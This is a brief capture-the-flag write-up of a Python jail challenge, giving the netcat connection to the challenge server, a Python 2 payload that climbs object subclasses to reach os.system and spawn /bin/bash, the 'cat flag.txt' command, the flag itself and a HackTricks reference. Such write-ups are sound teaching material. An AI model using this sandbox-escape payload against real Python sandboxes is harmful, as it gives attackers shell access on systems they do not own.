

**Context**


**Connection** `nc 16.16.65.31 32000`

I use this payload
```python
().__class__.__base__.__subclasses__()[59].__init__.__getattribute__("func_globals")['linecache'].__dict__['os'].__dict__['system']('/bin/bash')
```
After this, I run
```shell
cat flag.txt
```

**Result**



**FLAG:** `acdfCTF{M45t3r_0f_j41l_br34k3r}`

**Reference**: https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes
